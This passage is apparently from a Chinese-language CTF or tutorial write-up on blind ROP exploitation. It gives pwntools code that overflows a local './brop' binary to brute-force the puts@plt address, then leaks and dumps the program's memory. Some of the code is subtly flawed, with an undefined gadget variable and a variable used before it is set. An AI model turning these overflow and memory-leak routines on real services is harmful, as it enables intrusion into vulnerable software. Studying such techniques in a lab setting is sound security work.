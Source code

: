 爆破函数代码

```python
def find_puts_plt(buf_size, stop_gadget, start_addr = 0x400000, end_addr = 0x401000):
    elf_magic_addr = 0x400000
    puts_plt = start_addr

    while True:
        puts_plt += 1
        payload = b'a' * buf_size + p64(rdi) + p64(elf_magic_addr) + p64(puts_plt) + p64(stop_gadget)

        try:
            p = process('./brop')
            p.sendafter(b'>>\n', payload)
            resp1 = p.recvline(timeout=0.5)
            resp2 = p.recvline(timeout=0.5)

            if b'\x7fELF' in resp1 and b'>>\n' in resp2:
                p.close()
                log.info("puts_plt: 0x%x", puts_plt)
                return puts_plt
            p.close()
            log.info("find one stop gadget: 0x%x", puts_plt)

        except EOFError as e:
            p.close()
            log.info("not 0x%x, try harder", puts_plt)

```



### STEP 4 : dump 程序

获取了 puts_plt 之后，我们就已经能够泄露这个程序的二进制信息

爆破函数代码

```py
def dump_memory(buf_size, stop_gadget, puts_plt, start_addr=0x400000, end_addr = 0x401000):
    result = b''
    while start_addr < end_addr:
        sleep(0.1)
        payload = b'a' * buf_size + p64(rdi) + p64(start_addr) + p64(puts_plt)
        try:
            p = process('./brop')
            p.sendafter(b'>>\n', payload)
            resp1 = p.recv(timeout=0.5)
            if resp1 == b'\n':
                resp = b'\x00'
            elif resp1[-1:] == b'\n':
                log.info("[tail]leaking: 0x%x --> %s" % (start_addr, (resp or b'').hex()))
                resp = resp1[:-1] + b'\x00'
            else:
                resp = resp1
            
            if resp != resp1:
                log.info("[change]resp1: 0x%x: %s --> resp1: 0x%x: %s" % (start_addr, (resp1 or b'').hex(), start_addr, (resp or b'').hex()))

            log.info("leaking: 0x%x --> %s" % (start_addr, (resp or b'').hex()))
            result += resp
            start_addr += len(resp)
            p.close()
        except Exception as e:
            print(e)
```
